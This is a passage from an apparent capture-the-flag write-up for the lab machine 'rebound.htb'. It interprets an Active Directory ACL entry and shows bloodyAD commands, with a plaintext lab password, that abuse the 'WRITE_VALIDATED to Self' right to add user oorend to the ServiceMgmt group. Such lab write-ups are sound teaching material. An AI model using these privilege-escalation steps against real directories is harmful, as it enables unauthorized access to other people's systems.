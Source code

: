 ![image17](../resources/d9476af89c4f4f088d18c46609a0fbe5.png)

nTSecurityDescriptor.ACL.2.Type: == ALLOWED ==

nTSecurityDescriptor.ACL.2.Trustee: oorend

nTSecurityDescriptor.ACL.2.Right: WRITE_VALIDATED

nTSecurityDescriptor.ACL.2.ObjectType: Self

"WRITE_VALIDATED to Self" here, means oorend can make changes concerning themselves in relation to the ServiceMgmt group - possibly adding themselves to the group.


- We can try and add ourselves to the ServiceMgmt group:

```bash
python bloodyAD.py -u oorend -p '1GR8t@$$4u' -d rebound.htb --host rebound.htb add groupMember SERVICEMGMT oorend

```

![image18](../resources/d095f801cda8460280dd43d7057e6b00.png)

OR

```bash
python bloodyAD.py -d rebound.htb -u oorend -p '1GR8t@$$4u' --host rebound.htb add groupMember 'CN=SERVICEMGMT,CN=USERS,DC=REBOUND,DC=HTB' "CN=oorend,CN=Users,DC=rebound,DC=htb"

```
- We can check with:

![image19](../resources/e5521f3b63c14dcf86f439c312916e92.png)

